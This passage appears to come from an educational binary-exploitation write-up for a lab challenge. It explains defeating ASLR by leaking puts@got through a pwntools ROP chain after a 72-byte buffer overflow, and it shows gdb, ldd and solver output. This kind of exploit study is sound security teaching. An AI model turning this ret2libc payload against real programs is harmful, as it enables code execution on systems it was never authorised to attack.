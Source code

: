 ```console
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f224c476000)
	libm.so.6 => /lib/x86_64-linux-gnu/libm.so.6 (0x00007f224c0d8000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f224ce08000)
```

We see that all addresses are randomized each time. The only thing that stays the same, is the `offset` of each function. If we take a look at `libc.so.6`:

```console
gef➤  p puts
$1 = {<text variable, no debug info>} 0x80aa0 <puts>
```

This is the offset of `puts` inside this current `libc`. So, if we leak `puts@got` and subtract this `offset`, we can calculate `libc base`.

Our payload should look like this:

```python
# puts(puts@got)
pop_rdi  = rop.find_gadget(["pop rdi"])[0]
payload  = b"A"*offset
payload += p64(pop_rdi)
payload += p64(e.got.puts)
payload += p64(pop_rdi+1) # ret gadget for alignment
payload += p64(e.plt.puts)
```

We used the `ELF` module of `pwntools` to calculate the `puts@plt` and `puts@got`.

The output is like this:

```console
➜  challenge git:(main) ✗ python solver.py
[*] '/home/w3th4nds/github/Thesis/challenge6/challenge/challenge6'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 22 cached gadgets for './challenge6'
[*] '/home/w3th4nds/github/Thesis/challenge6/challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 72
b' \xa0\x1a\xc0\x8dx\x7f\n'
```

```console
➜  challenge git:(main) ✗ python solver.py
[*] '/home/w3th4nds/github/Thesis/challenge6/challenge/challenge6'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 22 cached gadgets for './challenge6'
[*] '/home/w3th4nds/github/Thesis/challenge6/challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
```